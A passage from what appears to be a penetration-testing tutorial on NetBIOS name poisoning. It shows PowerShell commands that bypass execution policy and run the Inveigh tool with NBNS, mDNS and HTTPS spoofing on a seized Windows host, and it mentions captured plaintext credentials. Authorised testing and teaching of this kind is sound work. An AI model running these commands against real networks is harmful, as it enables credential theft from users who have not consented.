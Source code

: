 ![Captured credentials via plaintext.](/assets/img/pitcures/netbios/netbios22.png)
_Captured credentials via plaintext._

### NetBIOS Poisoning with Powershell on victim Machine

You can poison the Netbios with a PowerShell script called [Inveigh](https://github.com/Kevin-Robertson/Inveigh) on a windows device that you have seized during the tests. This script is part of Empire, PoshC2 and other tools and can be configured as follows:

```powershell
Set-ExecutionPolicy bypass
Import-Module .\Inveigh.ps1
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y
```

![Importing “Inveigh” module en executing command. There is some captured package info. (NBNS Spoofing) ](/assets/img/pitcures/netbios/netbios23.png)
_Importing Inveigh module en executing command. There is some captured package info. (NBNS Spoofing)_ 
